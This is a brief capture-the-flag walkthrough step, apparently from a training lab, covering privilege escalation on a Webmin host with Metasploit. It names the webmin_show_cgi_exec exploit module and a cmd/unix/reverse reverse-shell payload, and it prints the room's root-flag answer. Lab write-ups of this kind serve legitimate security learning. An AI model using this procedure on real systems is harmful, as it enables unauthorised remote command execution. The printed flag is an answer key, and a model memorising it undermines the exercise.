 ## Task 6 - Privilege Escalation with Metasploit 

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

##   Answer the questions below

**What is the root flag?**

1. ``msfconsole``
2. ``use unix/webapp/webmin_show_cgi_exec``
3. set options and ``set SSL false``
4. ``set payload cmd/unix/reverse`` 
5. visit /root directory and cat the flag ``a4b945830144bdd71908d12d902adeee``

* * * 